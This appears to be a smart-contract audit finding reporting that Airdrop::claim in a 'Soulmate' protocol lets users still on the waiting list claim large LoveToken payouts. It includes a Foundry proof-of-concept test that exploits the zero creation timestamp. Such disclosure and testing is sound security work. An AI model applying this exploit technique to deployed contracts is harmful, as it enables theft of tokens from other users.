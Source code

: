 ## Vulnerability Details
The vulnerability occurs due to insufficient checks inside `Airdrop::claim` function as a result of which it considers users still in waiting list for soulmate are able to claim LoveToken from Airdrop.

A user calling `Soulmate::mintSoulmateToken` when there is no user assigned to `nextID`, then that user will be assigned the `nextID` in the mapping `ownerToId`, but notice that the user currently has no soulmate and is waiting for them to call it. 

But before the next user calling `mintSoulmateToken`, the first user will be eligible to claim Airdrop as `Aidrop::claim` function doesn't implement proper check whether the user has a soulmate or not.
```cpp
     uint256 numberOfDaysInCouple = (block.timestamp -
            soulmateContract.idToCreationTimestamp(
                soulmateContract.ownerToId(msg.sender)
            )) / daysInSecond;
```
Here the `ownerToId` for the user will be the `nextID` and corresponding to that nextID, no nft is created therefore `idToCreationTimestamp` for that token id will be `0` and the user will be able to claim a large number of LoveToken.

## Impact
Users currently in waiting list for other users are able to claim Aidrop by a bigger amount.

## PoC
Add the test in the file: `test/unit/AirdropTest.t.sol` and also import `console2` from `forge-std/Test.sol`

Run the test:
```cpp
forge test --mt test_UsersInSoulmateWaitingList_Are_Still_AbleToClaimAirdrop -vv
```
```cpp
function test_UsersInSoulmateWaitingList_Are_Still_AbleToClaimAirdrop() public {
    // the current timestamp of testing this
    vm.warp(1707932269);

    vm.prank(soulmate1);
    soulmateContract.mintSoulmateToken();

    // now the user soulmate1 is in waiting list

    // balance before claim
    uint256 balanceBeforeClaim = loveToken.balanceOf(soulmate1);

    // soulmate1 calls the Airdrop::claim function
    vm.prank(soulmate1);
    airdropContract.claim();

    uint256 claimedBalance = loveToken.balanceOf(soulmate1) - balanceBeforeClaim;

    // even though the user was currently in waiting list
    // but is still able to claim a large amount of LoveToken
    // because of insufficient checks inside claim function
    assert(claimedBalance > 0);
    console2.log("Claimed Balance:", claimedBalance);
}
```
